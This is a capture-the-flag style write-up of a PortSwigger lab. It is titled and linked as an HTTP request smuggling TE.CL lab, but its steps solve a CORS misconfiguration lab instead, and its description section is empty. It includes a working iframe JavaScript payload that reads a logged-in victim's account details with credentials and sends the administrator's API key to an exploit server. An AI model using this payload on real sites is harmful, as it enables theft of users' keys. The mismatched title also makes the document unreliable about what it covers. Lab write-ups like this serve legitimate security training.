





# Write-up: HTTP request smuggling confirming a TE.CL vulnerability via differential responses

Lab-Link: <https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses>  
Difficulty: PRACTITIONER  
  

## Lab description



### Goals

- Create a malicious JS code:
    - which can retreive the administrator's API key
    - and sends it to exploit server

## Steps

Firstly, login into the website using given credentials `wiener:peter` and intercept the request while login.



We can see the request for url `/accountDetails` whose respone contains the API key.


Now, if we send the request with some malicious looking origin like `Origin: evil.com`, we still get successful response with header `Access-Control-Allow-Origin: evil.com`. This confirms that the application is allowed to be access from any origin.


Now, this javascript code will:
1. call the `/accountDetails` page
2. fetches the API key
3. issues a request to the exploit server containing the value

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ab800f604b3156b81fa8921009c00d3.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>"></iframe>
```

Now, Go to exploit server and paste the code and "Deliver the exploit to victim".



After checking the "Access log" from exploit server we can see the administrator's API Key



We can now submit this API key of administrator.

Hence, lab is solved.


